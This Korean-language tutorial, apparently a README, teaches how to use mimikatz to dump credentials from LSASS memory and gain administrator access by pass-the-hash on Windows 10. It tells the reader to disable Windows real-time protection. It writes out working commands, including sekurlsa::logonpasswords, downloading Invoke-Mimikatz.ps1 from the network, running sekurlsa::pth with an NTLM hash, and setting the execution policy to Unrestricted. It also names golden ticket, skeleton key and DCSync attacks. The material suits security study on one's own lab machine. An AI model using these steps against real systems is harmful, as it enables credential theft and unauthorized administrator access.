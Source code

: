 ### mimikatz 사용 (lsass 메모리 덤프 및 관리자 계정 로그인)


#### 1. 설치

https://github.com/ParrotSec/mimikatz

위 사이트에서 다운로드 가능하며, Windows 보안 실시간 보호 등을 꺼주어야 다운로드 가능합니다.



- 개요

Mimikatz는 사용자가 메모리 또는 Windows 운영 체제에서 암호, 해시 및 Kerberos 티켓과 같은 인증 자격 증명을 추출할 수 있는 악용 후 도구입니다. 원래 Windows 운영 체제의 보안 취약점을 입증하기 위한 개념 증명 도구로 개발되었지만 현재는 공격자와 보안 전문가 모두가 보안 평가 및 침투 테스트를 수행하는 데 일반적으로 사용됩니다. Mimikatz를 사용하면 공격자는 인증 메커니즘을 우회하고 대상 시스템의 중요한 리소스에 액세스할 수 있는 pass-the-hash, pass-the-ticket 및 골든 티켓 공격과 같은 다양한 공격을 수행할 수 있습니다.


- 기능

Mimikatz는 Windows 시스템에서 다양한 악용 후 작업을 수행하기 위한 다목적 도구입니다. Mimikatz로 할 수 있는 다른 작업은 다음과 같습니다.

* LSASS 메모리 덤프: 이 명령은 LSASS(Local Security Authority Subsystem Service) 프로세스의 메모리에서 암호, 해시 및 Kerberos 티켓과 같은 자격 증명을 추출합니다.
* Pass-the-Hash: 이 기술을 사용하면 공격자가 실제 암호를 모르더라도 사용자 암호의 해시를 사용하여 원격 시스템에 인증할 수 있습니다.
* Pass-the-Ticket: 이 기술을 사용하면 공격자가 실제 사용자의 암호를 모르더라도 Kerberos 티켓을 사용하여 원격 시스템에 인증할 수 있습니다.
* 골든 티켓: 이 기술을 사용하면 공격자가 도메인의 모든 리소스에 액세스하는 데 사용할 수 있는 위조된 Kerberos TGT(Ticket Granting Ticket)를 만들 수 있습니다.
* 실버 티켓: 이 기술을 사용하면 공격자가 도메인의 특정 리소스에 대한 액세스 권한을 얻는 데 사용할 수 있는 위조된 Kerberos 서비스 티켓을 만들 수 있습니다.
* 스켈레톤 키: 이 기술을 사용하면 공격자가 가짜 암호를 도메인 컨트롤러의 메모리에 주입하여 도메인의 모든 사용자에 대한 암호 인증을 효과적으로 우회할 수 있습니다.
* DCSync: 이 기술을 사용하면 관리 권한이 있는 공격자가 도메인 컨트롤러에서 암호 데이터를 복제하여 도메인의 자격 증명 데이터베이스에 효과적으로 액세스할 수 있습니다.
 

#### Pass-The-Hash

Pass-The-Hash는 패스워드값을 사용하는 것이 아닌 패스워드의 해시값을 사용해서 자격증명을 하는 방식입니다. 로그인할 때 우리는 비밀번호를 치지만, Pass-The-Hash 기능을 이용하면 아이디와 해시값을 사용해서 로그인할 수 있습니다. 
Mimikatz를 통해서 lsass 메모리덤프 및 User ID와 NTLM Hash 값을 알아내 일반적인 비밀번호가 아닌 Hash 값으로 로그인할 예정입니다.


#### lsass 메모리 덤프 및 Pass-The-Hash를 이용하여 관리자 계정 시도

* 주의사항
  mimikatz 파일을 다운로드 받은 후 관리자권한으로 실행하여야 에러가 나지 않고 아래와 같이 실행됩니다.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

```

<img width="966" height="507" alt="image" src="https://github.com/user-attachments/assets/d6fe99cf-2cc5-413f-a7b6-e7c94994872a" />


관리자계정이 아닌 다른 계정으로 mimikatz를 실행해주시고 위와 같이 명령어를 입력해주시면 위와 같이 정보를 얻을 수 있습니다.

윈도우10 OS에서도 실행되는 것을 확인했습니다.

위에서 얻은 정보 중 Username, Domain, NTLM 정보를 적어놓습니다. 이후 파워쉘을 실행하고 Mimikatz 파워쉘 스크립트를 아래 명령어로 다운로드 받습니다.

```

Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1

```

위에서 다운로드 받게되면 아래 파일이 생깁니다.

<img width="615" height="44" alt="image" src="https://github.com/user-attachments/assets/1981f31d-f797-413d-90c2-891f11bbc197" />


이후 Pass-The-Hash 기능으로 NTLM hash 값을 이용하여 관리자 계정으로 접근하는 명령어를 실행합니다.

```

invoke-mimikatz -command '"sekurlsa::pth /user:user/domain:DESKTOP-B6EDDU2 /ntlm:c5928614e7dcd1e3ec18503cb1***** /run:powershell.exe"'

```
* 주의사항
기본적으로 위 명령어는 바로 실행되지 않더라구요.

<img width="841" height="105" alt="image" src="https://github.com/user-attachments/assets/7790099f-4fe8-4dda-9140-45f74f68f317" />

위 명령어를 바로 실행할 경우 위 사진과 같은 오류메시지가 발생하고 이를 해결하는 방법으로는 

모든 제약을 푸는 아래 명령어를 입력한 후 시도해주시면 됩니다.

```

Set-ExecutionPolicy Unrestricted

```

관리자 계정 접근이 정상적으로 되었는지 whoami , ipconfig 등 다양한 명령어를 시도해봅니다

<img width="852" height="232" alt="image" src="https://github.com/user-attachments/assets/143ebbad-2d6a-4eb2-9d8e-7b707c94204e" />

위 사진을 보니 정상적으로 제 관리자계정인 user 계정으로 정상 접근됨이 확인되었습니다.


